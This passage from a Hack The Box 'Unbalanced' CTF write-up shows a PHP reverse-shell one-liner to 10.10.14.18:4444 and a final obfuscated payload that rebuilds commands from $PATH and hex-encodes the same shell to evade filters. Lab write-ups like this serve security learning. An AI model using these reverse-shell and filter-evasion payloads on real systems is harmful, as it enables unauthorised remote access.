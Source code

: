 ![](/assets/images/htb-writeup-unbalanced/image-20200801213759929.png)

We'll just modify the PoC exploit with the right IP for our machine: `php -r '$sock=fsockopen("10.10.14.18",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

The final payload looks like this:

```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3138222C34343434293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27"));'&&
```

![](/assets/images/htb-writeup-unbalanced/image-20200801214200971.png)

![](/assets/images/htb-writeup-unbalanced/image-20200801214225678.png)
